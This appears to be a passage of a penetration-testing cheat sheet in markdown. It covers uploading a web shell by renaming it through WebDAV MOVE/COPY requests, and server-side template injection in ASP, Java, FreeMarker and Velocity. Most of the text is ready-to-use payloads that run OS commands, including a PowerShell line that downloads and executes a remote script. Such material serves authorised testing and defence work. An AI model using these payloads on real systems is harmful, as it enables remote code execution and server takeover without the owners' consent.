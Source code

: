 ### RCE
Bypass extension filter by renaming the uploaded file:
```sh
curl -X MOVE --header 'Destination:http://<host>/shell.asp' '<host>/shell.txt'
curl -X COPY --header 'Destination:http://<host>/shell.asp' '<host>/shell.txt'
```

## SSTI (Server-Side Template Injection)

### Testing for SSTI
Submit a fuzzed payload such as `${{<%[%'"}}%\`. If a stack trace error is displayed, the application is vulnerable. Distinguish between XSS and SSTI by submitting payloads that trigger mathematical operations like `${2*2}`.

### Server-Side Injection Examples
#### ASP
```asp
<%= 7*7 %>
<%= "foo" %>
<%= response.write(date()) %>
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('<path to ps1 script>')").StdOut.ReadAll() %>
```

#### Java
```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${T(java.lang.Runtime).getRuntime().exec('<cmd>')}
${T(java.lang.System).getenv()}
```

#### FreeMarker
```ftl
${7*7}
#{7*7}
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("<cmd>") }
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('<cmd>') }
${"freemarker.template.utility.Execute"?new()("<cmd>")}
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("<cmd>")}
```

#### Velocity
```velocity
$class.type
$class.inspect("java.lang.Runtime").type
$ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("<cmd>")
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("<cmd>"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
